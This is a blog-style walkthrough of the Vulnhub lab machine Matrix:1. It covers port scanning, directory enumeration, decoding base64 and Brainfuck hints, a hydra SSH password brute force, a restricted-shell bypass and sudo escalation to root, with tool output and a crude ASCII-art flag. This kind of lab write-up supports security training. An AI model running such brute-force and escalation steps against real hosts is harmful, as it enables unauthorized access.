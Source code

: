 ```yaml
---
layout: post
title:  "Matrix:1 Vulnhub Walkthrough"
date:   2020-09-25 15:00:00 +0530
categories: VulnHub CTF
---
```

Matrix:1 is a machine in which I used Enumeration to obtain shell access and then exploited the misconfigured sudo permissions to get root Access.

## Scanning
As always, I started scanning with Nmap

```
root@kali:/home/kali# nmap -sC -sV 192.168.198.139
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-25 00:30 EDT
Nmap scan report for 192.168.198.139
Host is up (0.000096s latency).
Not shown: 997 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 9c:8b:c7:7b:48:db:db:0c:4b:68:69:80:7b:12:4e:49 (RSA)
|   256 49:6c:23:38:fb:79:cb:e0:b3:fe:b2:f4:32:a2:70:8e (ECDSA)
|_  256 53:27:6f:04:ed:d1:e7:81:fb:00:98:54:e6:00:84:4a (ED25519)
80/tcp    open  http    SimpleHTTPServer 0.6 (Python 2.7.14)
|_http-server-header: SimpleHTTP/0.6 Python/2.7.14
|_http-title: Welcome in Matrix
31337/tcp open  http    SimpleHTTPServer 0.6 (Python 2.7.14)
|_http-title: Welcome in Matrix
MAC Address: 00:0C:29:43:C6:92 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.96 seconds
```
Interesting two http services!
## Web Enumeration
Then I enumerated directories and files using gobuster on both services but there is no useful information

```
root@kali:/home/kali# gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 192.168.198.139 -x php,html,json,py,matrix
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://192.168.198.139
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     matrix,php,html,json,py
[+] Timeout:        10s
===============================================================
2020/09/25 00:50:40 Starting gobuster
===============================================================
/index.html (Status: 200)
/assets (Status: 301)
/80.py (Status: 200)
[ERROR] 2020/09/25 00:51:41 [!] Get http://192.168.198.139/page22.php: net/http: request canceled while waiting for connection (Client.Timeout exceeded while awaiting headers)                                                     
[ERROR] 2020/09/25 00:59:13 [!] Get http://192.168.198.139/35921.php: net/http: request canceled while waiting for connection (Client.Timeout exceeded while awaiting headers)                                                      
[ERROR] 2020/09/25 01:00:48 [!] Get http://192.168.198.139/helpweb.html: net/http: request canceled while waiting for connection (Client.Timeout exceeded while awaiting headers)                                                   
[ERROR] 2020/09/25 01:02:08 [!] Get http://192.168.198.139/151871_1: net/http: request canceled (Client.Timeout exceeded while awaiting headers)                                                                                    
[ERROR] 2020/09/25 01:02:09 [!] Get http://192.168.198.139/lang_ko.py: net/http: request canceled (Client.Timeout exceeded while awaiting headers)                                                                                  
[ERROR] 2020/09/25 01:02:09 [!] Get http://192.168.198.139/28672.json: net/http: request canceled (Client.Timeout exceeded while awaiting headers)                                                                                  
[ERROR] 2020/09/25 01:02:09 [!] Get http://192.168.198.139/inalambrico.py: net/http: request canceled (Client.Timeout exceeded while awaiting headers)                                                                              
[ERROR] 2020/09/25 01:07:53 [!] Get http://192.168.198.139/gisabm.php: net/http: request canceled while waiting for connection (Client.Timeout exceeded while awaiting headers)                                                     
===============================================================
2020/09/25 01:14:21 Finished                                                                                      
===============================================================

```
Nothing really important here.
## Inspecting Element
So, I started digging in the http services in port 80 and 3117. I found a base64 encoded text while inspecting element on port 31337.

![Username]/assets/image/002/1.png)

## Cracking

After decoding

![Username](/assets/image/002/2.png)

so I visted http://192.168.198.139:1337/Cypher.matrix , a filed was downloaded which contained this strange ciphertext

![Username](/assets/image/002/3.png)

I used online crypto Identifier and the text was identified as Brainfuck Endcoding

![Username](/assets/image/002/4.png)

So I used another online tool to decode the text

![Username](/assets/image/002/5.png)

The text contains our password with missing two letters so I used an online combination
maker and prefix adder to make my wordlist
![Username](//assets/image/002/6.png)

Then I used hydra to bruteforce the ssh password

```
hydra -f -l guest -P Downloads/output.txt ssh://192.168.198.139
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-25 01:13:47
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1296 login tries (l:1/p:1296), ~81 tries per task
[DATA] attacking ssh://192.168.198.139:22/

[STATUS] 178.00 tries/min, 178 tries in 00:01h, 1120 to do in 00:07h, 16 active
[STATUS] 166.00 tries/min, 498 tries in 00:03h, 800 to do in 00:05h, 16 active
[STATUS] 153.29 tries/min, 1073 tries in 00:07h, 225 to do in 00:02h, 16 active
[22][ssh] host: 192.168.198.139   login: guest   password: k1ll0r7n
[STATUS] attack finished for 192.168.198.139 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-25 01:21:21
```

## Privilege Escalation
When I sshed to the user guest, it gave me a restricted shell so I bypassed the restriction by using this command

```
root@kali:/home/kali# ssh guest@192.168.198.139 -t bash

```

I ran diffreent Enumeration scripts and found an intersting sudo privilege which allows us to run all commands

```
guest@porteus:/tmp$ sudo -l
User guest may run the following commands on porteus:
    (ALL) ALL
    (root) NOPASSWD: /usr/lib64/xfce4/session/xfsm-shutdown-helper
    (trinity) NOPASSWD: /bin/cp

```

So

```
guest@porteus:/tmp$ sudo su
Password: 
root@porteus:/tmp# cat /root/flag.txt 
   _,-.                                                             
,-'  _|                  EVER REWIND OVER AND OVER AGAIN THROUGH THE
|_,-O__`-._              INITIAL AGENT SMITH/NEO INTERROGATION SCENE
|`-._\`.__ `_.           IN THE MATRIX AND BEAT OFF                 
|`-._`-.\,-'_|  _,-'.                                               
     `-.|.-' | |`.-'|_     WHAT                                     
        |      |_|,-'_`.                                            
              |-._,-'  |     NO, ME NEITHER                         
         jrei | |    _,'                                            
              '-|_,-'          IT'S JUST A HYPOTHETICAL QUESTION    

```
and voila here is the root privilege!






